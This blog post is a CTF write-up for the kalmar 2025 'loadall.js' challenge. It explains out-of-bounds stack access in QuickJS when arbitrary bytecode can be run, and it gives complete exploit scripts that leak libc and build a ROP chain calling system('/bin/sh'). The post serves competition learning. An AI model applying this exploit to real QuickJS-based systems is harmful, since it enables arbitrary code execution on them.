 ```yaml
---
title: "kalmar 2025: loadall.js"
description: "My brief solution for the loadall.js challenge"
summary: "kalmar 2025: loadall.js"
categories: ["Writeup"]
tags: ["Pwn"]
#externalUrl: ""
date: 2025-3-10
draft: false
authors:
  - Shin24
---
```


It's been sometime since I last wrote something on my blog, despite playing lots of CTF, I hardly have time to write. Last sunday, I play kalmar CTF with idek, but because I also play pico so I didn't have time to look on kalmar, before the CTF ends I decided to try some pwn and I was able to solve 1 pwn, this post will be my brief solution for `loadall.js`, a quickJS JavaScript Engine exploit challenge

## Summary

So in this challenge we are given the ability to run QuickJS bytecode directly via a custom function named `loadall`

![image](https://github.com/user-attachments/assets/9a4a3179-3533-4a72-9790-3233ca450095)

The problem is straightforward, when we write JS code, opcodes are emitted by the engine, everything work as expected, but when you are given the power to emit arbitrary bytecodes of your choosing, you may break the way the engine works. With that in mind, I look through the opcode handlers, and pretty quickly found some OOB read/write on stack via `get_loc`, `set_loc`, `get_arg`, `set_arg`, and then you can also incre/decrese the stack pointer `sp` so much that it overwrite all the stack frame.

![image](https://github.com/user-attachments/assets/2afadb21-886b-4750-868a-1aaf6f91f6a1)

so at this point I just have to figure out a way to escalate all of this to control IP.

## QuickJS internal

So each stack entry is a `JSValue`, the `+0` member is the value, the `+8` member is the tag, tag is the indication of what type that `JSValue` is, this is important for the exploitation process, keep it in mind. 

![image](https://github.com/user-attachments/assets/6363c512-90fd-484a-9fa1-df9cd8b26ef6)

## Exploitation

You may think that we have OOB read, so just look for some stack ptr to leak libc/heap or something, well it doesn't work like that. If we want to leak something, we will align the `u` of `JSValue` with that ptr, but then we have to ensure that the tag (a.k.a the next `+8`) is a valid tag, we can search for some places that `u` is a ptr and tag is a null so that QuickJS treat it as a number, but most numbers in QuickJS is 32 bit, so we won't be able to leak the full address, and there're nearly no place that has a valid float64 tag (`0x7`). So the idea is that because we have several OOB, we can use the `set_loc` OOB to overwrite the address of `arg_buf` to an stack address that is not 16-bit aligned, then use it to write the tag to float, and then use the OOB read in `get_loc` to read the value

![image](https://github.com/user-attachments/assets/b1d8cfab-d9ef-40a6-936f-847ab7e6c3ce)

So in above, for example the stack ptr `0x7ffd03c31020` is 16-bit aligned, but hold a pointer that is not 16-bit aligned, we can read from that location and write it to `var_buf`, we can now write to any location that is not 16-bit aligned with `set_arg`. 

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
```

The rest is simple, just use those primitives to overwrite the return address and ROP

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
system = libc + 312464n
pop_rdi = libc + 0x00000000000277e5n
sh = libc + 0x196031n

loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 38/*byte_code_len*/, 0/*local_count*/, OP_get_loc, 20, 0, OP_set_loc, 149, 0, OP_push_const, 0, 0, 0, 0, OP_set_arg, 134, 0, OP_push_const, 1, 0, 0, 0, OP_set_loc, 160, 0, OP_push_const, 3, 0, 0, 0, OP_set_arg, 135, 0, OP_push_const, 2, 0, 0, 0, OP_set_loc, 161, 0, 6/*BC_TAG_FLOAT64*/, parseInt(pop_rdi & 0xffn), parseInt((pop_rdi >> 8n) & 0xffn), parseInt((pop_rdi >> 16n) & 0xffn), parseInt((pop_rdi >> 24n) & 0xffn), parseInt((pop_rdi >> 32n) & 0xffn), parseInt((pop_rdi >> 40n) & 0xffn), parseInt((pop_rdi >> 48n) & 0xffn), parseInt((pop_rdi >> 56n) & 0xffn), 6/*BC_TAG_FLOAT64*/, parseInt(sh & 0xffn), parseInt((sh >> 8n) & 0xffn), parseInt((sh >> 16n) & 0xffn), parseInt((sh >> 24n) & 0xffn), parseInt((sh >> 32n) & 0xffn), parseInt((sh >> 40n) & 0xffn), parseInt((sh >> 48n) & 0xffn), parseInt((sh >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt(system & 0xffn), parseInt((system >> 8n) & 0xffn), parseInt((system >> 16n) & 0xffn), parseInt((system >> 24n) & 0xffn), parseInt((system >> 32n) & 0xffn), parseInt((system >> 40n) & 0xffn), parseInt((system >> 48n) & 0xffn), parseInt((system >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt((pop_rdi + 1n) & 0xffn), parseInt(((pop_rdi + 1n) >> 8n) & 0xffn), parseInt(((pop_rdi + 1n) >> 16n) & 0xffn), parseInt(((pop_rdi + 1n) >> 24n) & 0xffn), parseInt(((pop_rdi + 1n) >> 32n) & 0xffn), parseInt(((pop_rdi + 1n) >> 40n) & 0xffn), parseInt(((pop_rdi + 1n) >> 48n) & 0xffn), parseInt(((pop_rdi + 1n) >> 56n) & 0xffn),1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)
//EOF
```

to store that addresses, I stored them in `b->cpool` and load them using `OP_push_const` 

## Final thoughts

The challenge is not hard, only if we do it this way, according to the challenge's author, the intended solution is more complex

![image](https://github.com/user-attachments/assets/4cab211e-c11a-46b1-a710-9158359030df)

About the heap part, I also tried it that way, by allocating more constant on `b->cpool` you can control where the chunk will land on heap, it maybe more interesting to do a heap exploitation than a stack-based exploit I think. Thank you kalmar for bringing an enjoyable event.
